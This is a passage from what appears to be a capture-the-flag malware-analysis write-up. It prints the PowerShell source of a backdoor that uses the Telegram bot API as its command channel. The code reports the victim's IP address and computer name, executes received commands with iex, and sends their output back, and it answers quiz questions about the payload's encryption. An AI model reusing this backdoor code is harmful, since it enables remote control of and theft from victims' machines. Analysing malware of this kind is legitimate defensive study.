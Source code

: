 ```powershell
$i0 = "$g11`:$y31"
$g2=irm "https://ifconfig.me/ip"
if( -not (New-Object System.Threading.Mutex($false, $F2)).WaitOne(1)){
    exit
}
if($j2 -and $F2){
    irm -Uri "https://api.telegram.org/bot$($i0)/sendMessage?chat_id=$($j51)&text=$F2 ;; $env:COMPUTERNAME reconnected!"
}
else {
    $F2 = [guid]::NewGuid().guid
    Set-ItemProperty "HKCU:\\Environment" -name "GUID" -value $F2
    irm -Uri "https://api.telegram.org/bot$($i0)/sendMessage?chat_id=$($j51)&text=$F2 ;; $env:COMPUTERNAME new connection!"
}
if($j2 -isnot [int]){
    $j2 = 0
}
while(1){
    (irm -Uri "https://api.telegram.org/bot$($i0)/getUpdates").result|%{
        if ($j2 -lt $_.update_id) {
            $j2=$_.update_id;
            $u6,$r4=$_.message.text -split ";;";
            if ( ($u6 -like $g2) -or ($u6 -like $env:COMPUTERNAME) -or ($u6 -like $F2) -or ($u6 -like "all")) {
                $r0 = $($r4 | iex)2>&1 | Out-String;
                if ("" -eq $r0){
                    $r0="Task Done!!"
                }
                $u8=0;
                while ($u8 -lt $r0.Length) {
                    $r1 = 3999;
                    if (($r1 + $u8) -gt $r0.Length){$r1=$r0.Length % 3999}
                    irm -Uri "https://api.telegram.org/bot$($i0)/sendMessage?chat_id=$($j51)&text=$F2 : $($_.message.message_id)`n$($r0.Substring($u8,$r1))"
                    $u8+=$r1
                }
            }
        }
        Set-ItemProperty "HKCU:\\Environment" -name "Update" -value $j2
    }
}
```
As we can see from this line of code `$h5 = New-Object Security.Cryptography.AesManaged`, the malware uses `AES` in the final payload.

* Answer: `AES`

### [6/10] What is the full path of the key containing the password to derive the encryption key?
